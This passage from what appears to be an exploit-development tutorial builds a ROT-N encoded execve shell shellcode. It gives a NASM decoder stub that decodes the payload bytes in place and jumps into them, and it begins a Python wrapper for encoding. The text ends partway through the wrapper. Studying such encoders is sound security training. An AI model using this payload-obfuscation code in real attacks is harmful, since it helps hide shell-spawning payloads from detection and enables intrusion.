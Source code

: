 
### 4\. Getting rid of hard-coded shellcode size

Hard coding the shellcod size in the decoding stub is ugly, and is better to get rid of it for robustness, how do we do that?  
  
Check the assembly code we used earler, it's already using the SUB instruction, which affects registers. What if we add an additional byte of value N (in this case it's 13), so when it's subtracted, followed by a JZ jmp instruction, we know that we reached the end of the shellcode?  

**Modified assembly wrapper**  

```nasm
; Rot13ExecveSh.asm  
; by Abatchy  
;  
;   nasm -felf32 Rot13Encoder.asm && ld -o Rot13Encoder Rot13Encoder.o  
; Generated shellcode:   
  
global _start  
  
section .text  
  
_start:  
      
    jmp short get_shellcode_addr    ; Get address of shellcode  
  
ReturnLabel:  
    pop esi                 ; Store address of "shellcode" in esi  
decode:  
    sub byte [esi], 13      ; Decode byte at [esi]  
    jz shellcode              
    inc esi  
    jmp short decode  
  
get_shellcode_addr:  
    call ReturnLabel  
    shellcode: db  0x3e, 0xcd, 0x5d, 0x96, 0xef, 0x75, 0x3c, 0x3c, 0x80, 0x75, 0x75, 0x3c, 0x6f, 0x76, 0x7b, 0x96, 0xf0, 0x5d, 0xbd, 0x18, 0xda, 0x8d, 0x0d
```    

---  

### 5\. Python wrapper to support ROT-N

Wrapper below basically dissects the shellcode to replace instances where N is used, and encodes the payload, also shows a warning message if shellcode generated contains any null bytes.  

```python
#!/bin/python  
  
import sys  
  
def parse_args():  
    if len(sys.argv) < 2:  
        print "Usage: {0} N, where N is the number of rotations to be made".format(sys.argv[0])  
        print "[+] Using default value of N = 13"  
        return 13  
    else:  
        x = int(sys.argv[1]) % 256  
        if x < 1:  
            print "[-] Invalid number of rotations"  
            exit()  
        return x  
  
magic = parse_args()  
rotated_execve = ""  
```